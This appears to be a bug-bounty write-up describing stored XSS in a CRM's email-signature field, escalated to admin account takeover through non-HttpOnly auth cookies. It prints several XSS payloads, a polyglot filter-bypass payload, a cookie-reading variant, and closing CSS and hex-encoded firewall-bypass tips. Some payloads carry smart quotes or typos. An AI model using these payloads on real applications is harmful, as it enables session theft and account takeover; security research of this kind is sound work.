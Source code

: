 # XSSed-Admin-Account
# How I XSSed Admin Account
Hello Guys, recently I encountered with some Stored XSS on a web application which helped me takeover any account on the application.
Although some of the Stored XSS was easy to find, the impact which it had on the application was near critical and hence I’ll pick one of the cases in this post to explain the Impact.

# Case Study: Stored XSS to Account Takeover
The application ******* was under test was a three-tier web application – Presentation tier (Front-End/User Interface), Application Tier (Functional Logic) and Data-Tier (Databases). The application is a CRM application used for scheduling meetings, phone calls and sending Emails. The application used tokens to authenticate users when the user logged in the application. Using tokens added a layer of protection from CSRF and hence prevented requests to be sent on behalf of the user.

The token was generated as follows:
The username and some random string were encoded into base64 as-

admin:d4sb6bdfhfyr7hasdr434df was encoded as YWRtaW46ZDRzYjZiZGZoZnlyN2hhc2RyNDM0ZGY=

This token was added to every request and removing the token would send the request as unauthorized.
On checking the request to the site:

GET /******/ HTTP 1.1
Host: localhost
Authorization: Basic YWRtaW46ZDRzYjZiZGZoZnlyN2hhc2RyNDM0ZGY=
Espo-Authorization: YWRtaW46ZDRzYjZiZGZoZnlyN2hhc2RyNDM0ZGY=
Cookie: auth-username=admin; auth-token= d4sb6bdfhfyr7hasdr434df

We can see that the two major elements to form the Auth token were inside the cookie of the request. The Authorization token was constructed as follows:

Base64 encoding of (auth-username:authtoken)

Now, all we needed was to get a Reflected or Stored XSS on the application to take over any user as the cookies which form the token are not set as HttpOnly and can be captured by an attacker if he finds a way to deliver the malicious JavaScript.

The application had a preference tab where the user could set his email signature which is added to every email. The Email signature had various markdown methods. One of the features in the markdown which got my attention was the Code View feature on which you could try inserting HTML code inside the signature for better looks.

# The first attempt:
<svg/onload=alert(1)> was inserted in the code view field. On clicking the close code view feature, the alert box popped. This worked at that moment but on clicking on save, the event handlers were stripped in the application

Payload: <svg/onload=alert(1)>

Final response: <svg/[data-handler-stripped]=alert(1)>

# The second attempt:
XSS via Html Injection and Iframe. <a> tags and <iframe> tags were accepted by the application. Using the payload <a href=javascript:alert(1)>test</a> or the same with Iframe, the tags were inserted into the application but stripped the href or src values.

Payload: <a href=javascript:alert(1)>test</a>

Response:<a>test</a>

Payload: <iframe src=javscript:alert(1)></iframe>

Response: <iframe></iframe>

After this all payloads from Payloads all the things were tried, but there was no luck. While scrolling through the section about XSS in the same GitHub page, I stumbled across this polyglot XSS payload from Somdev Sangwan.

–>'”/></sCript><svG x=”>” onload=(co\u006efirm)“>

As this payload was inserted, it was seen that the XSS was permanently stored on the Preference page.
The code was then modified as such to steal cookies of the user.

–> “/><svg x=”>” onload=”(co\u006efirm)(document.cookie)”></svg>

The payload was very impactful to generate the stored XSS inside the Email as it would fire when the victim would reply or forward the Email having XSS inside the Email Signature.

Now all the attacker needed to do was send an Email to the admin of the application who when replied to the mail executed the malicious JavaScript. The attacker would now steal the cookies of admin and construct the Authorization token of the admin and hence completely take over his account.


# BugBounty Tips:
Xss using css:
<style>img{background-image:url(‘javascript:alert(1)’)}</style>


firewall bypass:

<style>*{background-image:url(‘\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29’)}</style>
